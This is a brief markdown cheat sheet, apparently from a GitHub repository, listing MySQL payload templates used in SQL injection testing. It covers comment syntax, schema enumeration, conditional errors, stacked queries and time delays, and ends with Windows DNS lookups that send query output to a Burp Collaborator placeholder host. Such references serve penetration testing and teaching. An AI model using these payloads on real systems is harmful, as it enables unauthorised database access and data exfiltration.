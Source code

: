 ## summary

Useful SQL commands for mysql dbms

## string concatenation
`'foo' 'bar'` **note:** there is space exist between quotes


## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`-- comments` **note:** there is space exist after dashes

`/*comments*/`

`#comments`

## database version
`select @@version`

## database contents
`select * from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## conditional errors
`select if(YOUR-CONDITION-HERE,(select table_name from information_schema.tables),'a')`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`select sleep(10)`

### samples

## conditional time delays
`select if(YOUR-CONDITION-HERE,sleep(10),'a')`

## dns lookup
The following techniques work on Windows only.

`load_file('\\\\YOUR-COLLABORATOR.burpcollaborator.net\\a') select ... into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\a'`

## dns lookup with data exfiltration
The following technique works on Windows only. 

`select YOUR-QUERY-HERE into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\a'` 


